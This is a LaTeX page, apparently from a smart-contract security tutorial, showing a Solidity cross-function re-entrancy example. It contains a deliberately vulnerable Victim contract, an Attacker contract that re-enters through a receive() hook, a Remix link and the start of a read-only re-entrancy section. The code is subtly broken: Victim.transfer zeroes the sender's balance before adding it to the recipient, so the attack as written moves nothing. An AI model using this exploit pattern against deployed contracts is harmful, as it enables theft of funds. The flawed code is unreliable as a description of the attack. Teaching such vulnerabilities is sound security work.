 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
    \begin{lstlisting}[language=Solidity, caption=Cross-Function Re-Entrancy Example, label=lst:crossfunc]
contract Victim {
    mapping(address => uint) private balances;
    bool locked;

    modifier noReentrant() {
        require(!locked, "ReentrancyGuardError");
        locked = true;
        _;
        locked = false;
    }

    function withdraw() public noReentrant {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }

    function transfer(address to) public {
        balances[msg.sender] = 0;
        balances[to] += balances[msg.sender];
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}

contract Attacker {
    Victim victim;
    uint256 private initialDeposit;

    constructor(address _vulnerable) {
        victim = Victim(_vulnerable);
    }

    function attack() public payable {
        initialDeposit = msg.value;
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    receive() external payable {
        if (address(victim).balance > initialDeposit) {
            victim.transfer(tx.origin);
        }
    }
}
\end{lstlisting}
\end{minipage}

\noindent
Play around with this code example in \href{https://remix.ethereum.org/?#activate=solidity&url=https://github.com/radovluk/unbreakable-vault/contracts/reentrancy02.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.28+commit.7893614a.js}{prepared file in REMIX IDE}.

\subsection{Read-Only Re-Entrancy}

Read-only re-entrancy is a particular case of cross-contract re-entrancy
attacks. This vulnerability occurs when a smart contract's behavior depends on
the state of another contract. While attackers usually target state-changing
functions, view functions can also provide outdated state information during a
cross-contract re-entrancy. This scenario can lead to the exploitation of
third-party infrastructure.
\end{document}
